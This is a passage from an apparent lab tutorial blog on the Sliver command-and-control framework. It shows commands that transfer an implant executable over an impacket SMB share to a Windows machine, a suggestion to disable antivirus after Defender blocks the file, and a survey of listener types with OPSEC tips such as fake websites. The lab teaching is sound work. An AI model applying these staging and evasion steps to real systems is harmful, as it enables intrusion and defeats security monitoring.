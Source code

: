 From here, I can run an SMB server on my local machine using impacket to transfer it to the remote Windows machine.
```shell
kali@transistor:~/Documents/sliver-test$ smbserver.py kali . -smb2support -username anon -password anon
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

And on the Windows machine...
```powershell
PS C:\Users\sreisz\Desktop\the-lab\sliver-test> net use \\10.10.69.24\kali /USER:anon anon
The command completed successfully.

PS C:\Users\sreisz\Desktop\the-lab\sliver-test> copy \\10.10.69.24\kali\DIFFICULT_DYNAMO.exe .
copy : Operation did not complete successfully because the file contains a virus or potentially unwanted software.
At line:1 char:1
+ copy \\10.10.69.24\kali\DIFFICULT_DYNAMO.exe .
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Copy-Item], IOException
    + FullyQualifiedErrorId : System.IO.IOException,Microsoft.PowerShell.Commands.CopyItemCommand
```

Yep. Sliver has only been getting popular by the day, and its signatures are in Microsoft Defender's database. An in-depth discussion of evasion techniques is outside the scope of this blog post, so we'll just disable antivirus for now and try again.

### Listeners
Once we've taken care of that, all we have to do is set up a listener on our client. In other C2 frameworks, such as [Covenant](https://github.com/cobbr/Covenant) and [Empire](https://github.com/BC-SECURITY/Empire), this is a little more involved, but here we can just run `http` in our shell to start it up. However, `http` is not the only listener, and it's not even the recommended one. Here's a brief description of what the other listeners are for.

- `http`/`https` - for communication over the HTTP(S) protocol, pretty standard across any C2
	- You can also use the `websites` command to stage a fake website on the listener port so it looks more legit if someone tries to look at your listener.
- `mtls` - communication using mutual-TLS, a protocol in which both the implant and the server present a certificate that the other must validate. If one certificate fails, the connection does not happen.
	- Note that Sliver does hardcode the TLS configuration so that's something to think about for OPSEC
- `wg` - communication using WireGuard, which essentially creates a lightweight VPN to communicate over. This is also a highly recommended option by the devs, but if you want to learn more about this, I think this [discussion](https://github.com/BishopFox/sliver/discussions/721) answers most questions
- `dns` - definitely one of the more finnicky options where you leverage a domain that you control to transmit data over. This is all UDP and I don't really recommend it for beginners.
